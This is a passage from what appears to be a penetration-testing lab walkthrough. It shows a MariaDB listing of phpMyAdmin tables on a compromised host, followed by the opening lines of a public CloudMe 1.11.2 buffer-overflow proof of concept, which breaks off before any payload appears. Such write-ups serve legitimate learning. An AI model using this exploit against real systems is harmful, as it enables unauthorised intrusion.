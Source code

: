 ```

MariaDB [phpmyadmin]> show tables;
+------------------------+                                                                                            
| Tables_in_phpmyadmin   |         
+------------------------+                                                                                            
| pma__bookmark          |              
| pma__central_columns   |                                                                                            
| pma__column_info       |             
| pma__designer_settings |                                                                                            
| pma__export_templates  |           
| pma__favorite          |                                                                                            
| pma__history           |              
| pma__navigationhiding  |                                                                                            
| pma__pdf_pages         |         
| pma__recent            |                                                                                            
| pma__relation          |           
| pma__savedsearches     |                                                                                            
| pma__table_coords      |           
| pma__table_info        |                                                                                            
| pma__table_uiprefs     |      
| pma__tracking          |
| pma__userconfig        |
| pma__usergroups        |
| pma__users             |
+------------------------+
19 rows in set (0.164 sec)
```

There was nothing interesting in the `myphpadmin` database, so I moved on to CloudMe. Let's take a look at the PoC and see if the exploit works.

# CloudMe service

```
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"
```
